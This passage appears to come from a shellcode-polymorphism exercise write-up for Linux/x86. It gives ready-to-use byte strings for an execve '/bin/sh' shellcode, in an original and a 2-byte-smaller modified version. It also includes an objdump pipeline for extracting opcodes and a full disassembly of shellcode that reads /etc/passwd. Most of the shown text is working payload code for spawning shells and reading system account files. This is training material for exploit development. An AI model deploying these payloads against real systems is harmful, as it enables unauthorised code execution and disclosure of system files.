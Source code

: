 ```
	shell: db '/bin/sh'
```

Retrieving the opcodes:

	objdump -d ./shell|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
	"\xeb\x09\x5b\x31\xc0\x99\x91\xb0\x0b\xcd\x80\xe8\xf2\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"

Original version:
	
	"\xEB\x0B\x5B\x31\xC0\x31\xC9\x31\xD2\xB0\x0B\xCD\x80\xE8\xF0\xFF\xFF\xFF\x2F\x62\x69\x6E\x2F\x73\x68"

Modified:

	"\xEB\x09\x5B\x31\xC0\x99\x91\xB0\x0B\xCD\x80\xE8\xF2\xFF\xFF\xFF\x2F\x62\x69\x6E\x2F\x73\x68"


This is **2 bytes smaller**! Bonus points ya'll o/.

# Shellcode 2: Linux/x86 - File Reader /etc/passwd - 65 bytes
The original version can be found [here](http://shell-storm.org/shellcode/files/shellcode-73.php). Also uses JMP/CALL/POP.

I converted it to Intel syntax (can't stand AT&T, ugh):

	objdump -D -M intel test

```
    2040:	31 c0                	xor    eax,eax
    2042:	31 db                	xor    ebx,ebx
    2044:	31 c9                	xor    ecx,ecx
    2046:	31 d2                	xor    edx,edx
    2048:	eb 32                	jmp    207c <buf+0x3c>
    204a:	5b                   	pop    ebx
    204b:	b0 05                	mov    al,0x5
    204d:	31 c9                	xor    ecx,ecx
    204f:	cd 80                	int    0x80
    2051:	89 c6                	mov    esi,eax
    2053:	eb 06                	jmp    205b <buf+0x1b>
    2055:	b0 01                	mov    al,0x1
    2057:	31 db                	xor    ebx,ebx
    2059:	cd 80                	int    0x80
    205b:	89 f3                	mov    ebx,esi
    205d:	b0 03                	mov    al,0x3
    205f:	83 ec 01             	sub    esp,0x1
    2062:	8d 0c 24             	lea    ecx,[esp]
    2065:	b2 01                	mov    dl,0x1
    2067:	cd 80                	int    0x80
    2069:	31 db                	xor    ebx,ebx
    206b:	39 c3                	cmp    ebx,eax
    206d:	74 e6                	je     2055 <buf+0x15>
    206f:	b0 04                	mov    al,0x4
    2071:	b3 01                	mov    bl,0x1
    2073:	b2 01                	mov    dl,0x1
    2075:	cd 80                	int    0x80
    2077:	83 c4 01             	add    esp,0x1
    207a:	eb df                	jmp    205b <buf+0x1b>
    207c:	e8 c9 ff ff ff       	call   204a <buf+0xa>
    2081:	2f                   	das    
    2082:	65 74 63             	gs je  20e8 <__TMC_END__+0x58>
    2085:	2f                   	das    
    2086:	70 61                	jo     20e9 <__TMC_END__+0x59>
    2088:	73 73                	jae    20fd <__TMC_END__+0x6d>
    208a:	77 64                	ja     20f0 <__TMC_END__+0x60>
```